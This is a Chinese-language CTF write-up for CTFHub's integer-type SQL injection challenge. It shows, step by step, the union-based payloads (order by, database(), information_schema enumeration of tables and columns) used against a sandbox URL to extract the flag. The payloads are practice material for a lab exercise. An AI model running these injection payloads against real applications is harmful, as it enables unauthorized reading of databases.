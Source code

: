 # CTFHUB_整数型注入

## 题目内容

![image-20210822185008421](/home/adian/note/Study_Note/网络安全/CTF/pic/14.png)

## WriteUp
很简单的注入，直接构造语法就可以，注意利用informantion_schema,不过确实很久没有手动注入过了，还是查了查以前的资料

首先使用单引号使其报错

```
http://challenge-91a8cfbee86c0272.sandbox.ctfhub.com:10800/?id=1'
```

报错，并能通过给出的sql语句判断存在sql注入漏洞

下一步我们查询字段数量

```
1 order by 2
```

在order by 3的时候，报错，证明有两个字段，然后我们查询当前数据库

```
1 union select 1,database()
```

结果还是显示ctfhub，这个时候我们需要给参数1前面加上`-`使其报错

```
-1 union select 1,database()
```

得到数据库名sqli

```
select * from news where id=-1 union select 1,database()
ID: 1
Data: sqli
```

然后我们使用information_schema来获取sqli数据库下的表名

```
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
```

得到表名为news和flag

```
select * from news where id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
ID: 1
Data: news,flag
```

我们猜解flag表的字段

```
1 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'
```

得到如下结果

```
select * from news where id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'
ID: 1
Data: flag
```

得到信息，在flag表下有flag字段，我们查询他

```
-1 union select 1,flag from flag
```

得到结果

```
select * from news where id=-1 union select 1,flag from flag
ID: 1
Data: ctfhub{44894463000b4ee3e057bc5d}
```

